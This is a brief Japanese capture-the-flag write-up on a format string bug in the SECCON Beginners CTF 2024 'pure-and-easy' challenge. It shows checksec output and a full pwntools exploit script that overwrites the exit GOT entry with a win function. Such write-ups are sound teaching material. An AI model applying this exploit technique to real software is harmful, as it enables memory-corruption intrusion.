 # Format String Bug
- https://feneshi.co/ctf4b2024writeup/#pure_and_easy
- https://docs.pwntools.com/en/stable/fmtstr.html
# 解説
```
pwndbg> checksec
File:     /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/pure-and-easy/chall
Arch:     amd64
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
- Partial RELRO は GOT overwrite が使える
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF('./chall')
io = process([exe.path])
# io.sendlineafter(b'>', b"AAAAAAAA,"+bytes(",".join(["%p" for _ in range(20)]), "utf-8"))
io.sendlineafter(b'> ', fmtstr_payload(6, {
    exe.got['exit']: exe.symbols['win']
}))
log.info(io.recvall().decode(errors='ignore'))
```
